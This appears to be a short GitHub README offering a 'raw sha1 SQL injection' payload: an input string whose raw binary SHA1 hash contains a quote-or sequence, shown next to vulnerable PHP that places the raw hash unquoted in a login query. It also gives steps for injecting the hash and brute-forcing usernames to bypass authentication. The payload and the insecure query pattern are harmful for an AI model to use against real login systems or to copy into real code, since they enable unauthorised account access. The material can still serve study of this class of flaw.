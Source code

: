 # raw sha1 sql injection

| Hash string                | SHA1 Hash                                     | Raw output            |Query   |Author    |
| -------------------------- |:---------------------------------------------:|:---------------------:|:------:|:--------:|
| 5651578060603509           |96009c0bafe7be05e23b0079226f7222d82fee88       |E&�ɶ��'\|\|'8�vjc\�   |'\|\|'8 |0xJohannes|


#  EXAMPLE USAGE

```php
<?php

...SOME CODE...

function escape_sql()
  {
    ...sql escape...
  }
  
$pass = sha1($_POST['pass'], true);

$log = escape_sql($_POST['log']);

$sql = "select * from tablename where password=$pass AND username=$log";

...SOME CODE...
?>
```
* The first step is to inject one of suitable hashes.
* The second move is bruteforcing the login value i.e, (admin, 4dm1n and so on)
* The final step is buying me a coffee :D [![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/Wo30ewVvi)
